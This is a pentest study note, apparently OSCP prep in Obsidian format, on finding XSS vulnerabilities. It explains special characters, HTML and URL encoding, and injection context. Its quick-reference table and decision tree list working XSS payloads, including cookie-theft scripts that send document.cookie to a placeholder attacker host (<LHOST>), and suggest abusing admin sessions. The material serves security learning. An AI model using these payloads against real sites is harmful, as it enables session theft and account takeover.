

---
tags:
  - fingerprinting
  - phase/enumeration
  - vulnerability-scanning
  - web
  - xss
---

# Identifying XSS Vulnerabilities

> [!tip] Quick Reference — XSS
> | Type | Payload |
> |------|---------|
> | Basic test | `<script>alert(1)</script>` |
> | Image onerror | `` |
> | SVG | `<svg onload=alert(1)>` |
> | Cookie steal | `<script>document.location='http://<LHOST>/?c='+document.cookie</script>` |
> | Attribute inject | `" onmouseover="alert(1)` |
> | Filter bypass | `<ScRiPt>alert(1)</ScRiPt>` |

## Decision Tree

```
User input reflected in page?
├── Test basic: <script>alert(1)</script>
│   ├── Popup appears → Stored or Reflected XSS
│   └── No popup → check page source for output
│       ├── Output in attribute → " onmouseover="alert(1)
│       ├── Output in JS context → ';alert(1);//
│       └── Filtered → try alternatives (img, svg, uppercase, encoding)
│
├── Stored XSS (persists for other users)?
│   └── Higher impact — can target admin sessions
│       ├── Cookie theft (if no HttpOnly)
│       │   └── <script>fetch('http://<LHOST>/?c='+btoa(document.cookie))</script>
│       └── Admin action via CSRF + XSS
│           └── Craft JS to perform action as admin (create user, change password)
│
└── Reflected XSS?
    └── Needs victim to click URL — less useful for OSCP unless specifically required
```

## Visual Flow



> [!success] What success looks like
> The special characters you submitted (`< > ' " { } ;`) come back **unencoded** in the response source. That means the app treats them as code, not text — the first sign you can build a working XSS payload.

> [!danger] Common errors
> - Your characters appear as `&lt;` / `&gt;` instead of `<` / `>` → the app HTML-encoded them, so they render as text and won't execute. Try another input or context. See [[🔣 Encoding Reference]].
> - You inject `<script>` between tags but it never fires → check where the input actually lands; inside an existing attribute or JS block you need quotes/semicolons to break out first, not full tags.
> - You test only in the browser view → always check the raw page source (Ctrl+U) or the Burp response; encoding is easy to miss on the rendered page.
> Full list: [[⚠️ Common Errors & Troubleshooting]]

> [!tip] Beginner note
> "Context" just means *where on the page your input ends up*. Between `<div>` tags you can inject your own `<script>` tag; inside an existing `<script>` block you only need a quote and a semicolon to start your own code. The payload you choose must match the context.

## Resources
- [HackTricks — XSS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
- [PayloadsAllTheThings — XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [XSS Hunter](https://xsshunter.trufflesecurity.com) — blind XSS callbacks


We can find potential entry points for XSS by examining a web application and identifying input fields (such as search fields) that accept unsanitized input, which is then displayed as output in subsequent pages.

Once we identify an entry point, we can input special characters and observe the output to determine if any of the special characters return unfiltered.


Let's describe the purpose of these special characters. HTML uses "<" and ">" in markup syntax to denote elements, the various components that make up an HTML document. JavaScript uses "{" and "}" in function declarations. Single (') and double (") quotes are used to denote strings, and semicolons (;) are used to mark the end of a statement.

If the application does not remove or encode these characters, it may be vulnerable to XSS because the app interprets the characters as code, which in turn, enables additional code.

While there are multiple types of encoding, the most common we'll encounter in web applications are HTML encoding and URL encoding, URL encoding, sometimes referred to as percent encoding, is used to convert non-ASCII and reserved characters in URLs, such as converting a space to "%20".

HTML encoding (or character references) can be used to display characters that normally have special meanings, like tag elements. For example, &lt; is the character reference for \<. When encountering this type of encoding, the browser will not interpret the character as the start of an element but will display the actual character as-is.

If we can inject these special characters into the page, the browser will treat them as code elements. We can then begin to build code that will be executed in the victim's browser once it loads the maliciously injected JavaScript code.

We may need to use different sets of characters, depending on where our input is being included. For example, if our input is being added between div tags, we'll need to include our own script tags and need to be able to inject "<" and ">" as part of the payload. If our input is being added within an existing JavaScript tag, we might only need quotes and semicolons to add our own code.

> [!note]- Screenshot
> ```
> The most common special characters used for this purpose include:
> <> "fas
> Listing 23 - Special characters for HTML and JavaScript
> ```


```sh
< > ' " { } ;
```

---
%% graph-links %%
## Related
- [[Stored vs Reflected XSS Theory]]
- [[Basic XSS]]
- [[Security Testing with Burp Suite]]

> [!info] Navigation
> Section: [[Web Applications/Cross-Site Scripting/_index|Cross-Site Scripting]] · Home: [[🏠 Home]]

